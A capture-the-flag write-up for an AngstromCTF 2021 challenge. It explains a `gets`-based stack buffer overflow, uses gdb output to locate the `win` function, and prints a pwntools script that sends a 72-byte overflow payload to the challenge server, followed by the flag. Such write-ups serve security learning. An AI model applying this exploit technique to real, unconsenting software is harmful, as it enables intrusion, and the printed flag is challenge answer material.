 # AngstromCTF2021
Looking at the sourcecode we see that executing the function `win` will print the flag. We also notice that `gets` is used for input. This enables to overwrite the instruction pointer and make the program execute the `win` function.

Disassembling the program with gdb we find the address of the `win` function:
```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401030  puts@plt
0x0000000000401040  setbuf@plt
0x0000000000401050  printf@plt
0x0000000000401060  fgets@plt
0x0000000000401070  strcmp@plt
0x0000000000401080  gets@plt
0x0000000000401090  fopen@plt
0x00000000004010a0  exit@plt
0x00000000004010b0  _start
0x00000000004010e0  _dl_relocate_static_pie
0x00000000004010f0  deregister_tm_clones
0x0000000000401120  register_tm_clones
0x0000000000401160  __do_global_dtors_aux
0x0000000000401190  frame_dummy
0x0000000000401196  win
0x0000000000401204  vuln
0x0000000000401261  main
0x00000000004012a0  __libc_csu_init
0x0000000000401310  __libc_csu_fini
0x0000000000401318  _fini
```
Thus if we're able to overwrite the instruction pointer with `0x00401196` we can get the flag. By trial and error we find the offset need to overwrite the instruction pointer to be 72.

Coding it all up we get:
```
from pwn import *

win_addr = b"\x96\x11\x40\x00"
payload = b"\x41"*72 + win_addr

conn = remote('shell.actf.co', 21830)
response = conn.recvline()
print(response)
conn.sendline(payload)
response = conn.recvline()
print(response)
response = conn.recvline()
print(response)
```
This returns the flag: actf{time_has_gone_so_fast_watching_the_leaves_fall_from_our_instruction_pointer_864f647975d259d7a5bee6e1}
